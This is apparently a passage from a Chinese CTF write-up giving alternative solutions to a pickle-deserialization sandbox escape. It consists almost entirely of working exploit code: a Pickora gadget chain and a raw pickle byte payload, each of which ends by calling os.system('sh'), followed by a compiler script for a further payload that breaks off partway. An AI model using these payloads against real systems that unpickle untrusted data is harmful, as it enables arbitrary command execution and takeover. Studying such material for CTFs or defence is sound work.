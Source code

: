   - 其他解：
  ```py
  mgk = GLOBAL('', 'mgk')
  up = GLOBAL('', 'up')
  __main__ = GLOBAL('', '__main__')
  __getattribute__ = GLOBAL('', '__getattribute__')
  __init__ = GLOBAL('', '__init__')
  __builtins__ = GLOBAL('', '__builtins__')
  BUILD(up, None, {'banned': [], '__import__': __init__})
  BUILD(mgk, None, {'nested': up})
  BUILD(__main__, None, {'__main__': __builtins__})
  BUILD(up, None, {'__import__': __getattribute__})
  builtins_get = GLOBAL('', 'get')
  BUILD(up, None, {'__import__': __init__})
  BUILD(up, None, {'persistent_load': builtins_get})
  exec = PERSID('exec')
  BUILD(up, None, {'persistent_load': exec})
  PERSID('sys.modules["os"].system("sh")')
  ```
  ```py
  b'''c\n__main__\n\x94c\n__builtins__\n\x94b0c\n__getattribute__\n\x940c\nmgk\n\x940c\nup\n\x940h\3N(S"banned"\n]S"__import__"\nc\ntuple\nS"nested"\nh\3d\x86b0h\0N(S"__main__"\nh\1d\x86b0h\3N(S"__import__"\nh\2d\x86b0h\4(S"persistent_load"\nc\n__getitem__\ndb(S"persistent_load"\nPexec\ndb0Pnext(x for x in object.__subclasses__() if 'BuiltinImporter' in str(x)).load_module("os").system("sh")\n.'''
  ```
  ```py
  import sys
  sys.path.insert(0, "./Pickora")
  from pickora import Compiler
  import pickletools
  def unary(result_name, fn_name, arg_name):
      return f"""__builtins__['next'] = {fn_name}
  up._buffers = {arg_name}
  {result_name} = NEXT_BUFFER()
  """
  pk = Compiler().compile(
      f"""
  from x import Unpickler, __main__, __builtins__, up
  BUILD(__main__,__builtins__,None)
  from x import getattr, print, vars, dir, object, type, dict, list
  {unary('val', 'vars', 'dict')}
  BUILD(__main__,val,None)
  from x import values as dictvalues
  {unary('val', 'vars', 'list')}
  BUILD(__main__,val,None)
  from x import pop as listpop
  {unary('val', 'vars', 'list')}
  BUILD(__main__,val,None)
  from x import reverse as listreverse
  {unary('bl', 'dictvalues', '__builtins__')}
  {unary('bl', 'list', 'bl')}
  {unary('_', 'listreverse', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  ```